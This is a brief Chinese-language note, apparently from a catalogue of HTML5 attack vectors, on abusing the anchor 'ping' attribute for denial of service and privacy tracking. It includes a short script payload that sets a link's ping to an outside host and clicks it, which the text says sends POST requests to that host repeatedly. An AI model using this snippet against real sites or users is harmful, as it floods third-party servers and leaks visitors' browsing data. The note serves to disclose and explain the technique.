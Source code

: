 -----

* 特性：ping属性
* 环境：发送异步请求，完成一次HTTP重定向，循环发送POST请求，造成DOS攻击；
        PING-FROM、USER-AGENT、REFERER泄漏用户的隐私。
* 漏洞类型：DOS攻击、隐私追踪

-----   

举例：
-----
      <script> 
      var link = document.createElement('a'); 
      link.href=""; 
      link.ping = 'http://www.xisigr.com/'; 
      document.head.appendChild(link); link.click(); 
      </script>    
      运行上面的代码，就会不停的向xisigr.com发送POST请求。
